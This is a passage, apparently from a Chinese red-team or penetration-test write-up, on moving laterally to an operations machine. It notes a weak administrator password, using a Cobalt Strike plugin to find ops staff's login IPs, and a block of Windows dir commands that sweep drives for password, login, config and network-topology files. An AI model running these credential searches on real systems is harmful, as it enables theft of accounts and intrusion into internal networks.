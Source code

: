 使用脚本进行解密获得本机验证码

![r10bnuf1d3_sY377ayb3l.png](assets/1698900866-7f3ea9554971f02343b13353cac45dbe.png)

### 运维机

横向的时候优先拿运维机，一般运维机存储着大量的账号密码信息，比如这次无意中发现的运维机器使用的是弱口令`administrator/111111`

另外还可以通过 cs 插件查看机器历史登录 IP 对运维人员进行锁定

拿下后可通过命令行快速收集服务器、网络拓扑、密码本、公司信息等重要文件。

```php
dir /a /s /b d:\\" \*.txt"   
dir /a /s /b d:\\"\* pass \*"   
dir /a /s /b d:\\"\* login \*"   
dir /a /s /b d:\\"\* user \*"  
dir /a /s /b c:\\password.txt  
dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config   
dir /a /s /b c:\\conf.\* config.\*   
dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "拓扑"  
dir /a /s /b c:\\\*.conf \*.ini\* .inc\* .config | findstr "运维"  
dir /a /s /b c:\\\*.txt \*.xls\* .xlsx\* .docx | findstr "密码" >C:\\Users\\1.txt  
```

最后收集了一堆密码本，可登录到各重要系统：

H3C 堡垒机
